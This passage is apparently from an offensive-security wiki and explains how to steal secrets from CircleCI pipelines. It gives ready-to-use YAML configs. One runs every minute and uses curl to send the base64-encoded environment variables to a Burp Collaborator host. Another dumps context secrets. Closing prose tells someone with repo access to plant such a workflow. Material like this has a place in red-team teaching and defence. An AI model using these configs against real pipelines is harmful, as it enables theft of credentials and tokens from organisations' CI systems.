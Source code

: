 ```yaml
version: 2.1

jobs:
  exfil-env:
    docker:
      - image: cimg/base:stable
    steps:
      - checkout
      - run:
          name: "Exfil env"
          command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
  exfil-env-workflow:
    triggers:
      - schedule:
          cron: "* * * * *"
          filters:
            branches:
              only:
                - circleci-project-setup
    jobs:
      - exfil-env
```

#### Exfiltrate Context Secrets

You need to **specify the context name** (this will also exfiltrate the project secrets):

```yaml
version: 2.1

jobs:
  exfil-env:
    docker:
      - image: cimg/base:stable
    steps:
      - checkout
      - run:
          name: "Exfil env"
          command: "env | base64"

workflows:
  exfil-env-workflow:
    jobs:
      - exfil-env:
          context: Test-Context
```

If you **don't have access to the web console** but you have **access to the repo** and you know that CircleCI is used, you can just **modify a workflow** that is **triggered every minute** and that **exfils the secrets to an external address**:
